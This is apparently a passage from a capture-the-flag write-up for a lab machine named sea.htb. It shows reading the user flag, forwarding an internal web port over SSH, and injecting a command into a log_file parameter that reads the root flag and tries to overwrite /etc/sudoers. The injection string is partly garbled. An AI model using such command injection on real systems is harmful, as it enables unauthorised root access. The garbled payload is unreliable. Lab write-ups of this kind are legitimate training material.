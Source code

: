 We can now get the user flag.
```shell-session
amay@sea:~$ cat user.txt
a9f9f30f76cf2497545250281a4ade30
```

Using SSH we can connect to the local host on the target machine.
```shell-session
# ssh -L 8083:localhost:8080 amay@sea.htb
```

Accessing the application at localhost:8083, we can watch the logs.
![[Pasted image 20240815123100.png]]

Changing the log_file argument to the following, revealed the flag.
```
log_file=/root/root.txt;cp/dev/shm/sudoers> /etc/suoderskanalyze_log
```

![[Pasted image 20240815123308.png]]

```
09be732ef14e53e8672eee6d4d58bb8d
```